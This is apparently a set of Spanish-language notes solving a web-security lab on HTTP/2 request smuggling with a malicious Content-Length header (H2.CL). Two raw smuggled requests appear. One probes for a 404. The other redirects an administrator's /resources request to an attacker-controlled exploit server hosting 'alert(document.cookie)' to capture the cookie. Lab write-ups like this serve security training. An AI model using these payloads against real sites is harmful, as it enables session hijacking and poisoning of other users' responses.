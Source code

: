 En esta clase llevamos a cabo un ataque de request smuggling utilizando HTTP/2 con un encabezado ‘**Content-Length**‘ malicioso (H2.CL), cuyo objetivo es hacer que el navegador de la víctima cargue y ejecute un archivo JavaScript desde nuestro servidor malicioso.

Aprovechamos una redirección automática al acceder a /resources, lo que nos permite inyectar una petición que, al ser procesada por el back-end, provoca que la víctima sea redirigida al exploit server donde se aloja nuestro payload ‘**alert(document.cookie)**‘.

La clave está en enviar la petición en el momento justo en que el administrador accede a la página, ya que este tráfico será el que acabe siendo redirigido gracias a la cola de respuestas envenenada. Esta técnica requiere repetir el ataque varias veces hasta acertar con el timing exacto.

Solucion
asi que vamos hacer la configuracion de la intercepcion de la pagina principal y vamos a meter un paylaod para que nos muestre el error 404 y asi saber si es vulnerable a smuggling
![[Pasted image 20250809212331.png]]
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /error HTTP/1.1

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 5



x=1)
entonces en este caso a un request smugling
entonces que sigue por que en este caso nosotros no podemos copiar asi la cookie entonces lo que hacemos es investigar un poco y si miramos en el BS en el http history vemos que se esta haciendo alucion a /resources cada poco tiempo
![[Pasted image 20250809212628.png]]
de modo que nostros no podemos hacer la peticion por medio de esta vulnerabilidad lo que podemos hacer es redireccionar nuestro payload hacia resources para ver si nos arroja el mismo error
![[Pasted image 20250809213017.png]]
y en este caso nos arroja el 302 (entonces lo que podemos hacer es redirigir a nuestro exploit server)
pasamos a configurarlo
![[Pasted image 20250809213648.png]]
entonces cambiamos el host hacia nuestro exploit server y le damos send
![[Pasted image 20250809213730.png]]
ahora si le damos follow redirection
![[Pasted image 20250809214244.png]]
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /resources HTTP/1.1

Host: exploit-0a65006b044fa3548057025e012f00fe.exploit-server.net

Content-Length: 5



x=1)
entonces es solo cuestion de esperar para poder tener respuesta de la cookie
![[Pasted image 20250809214528.png]]

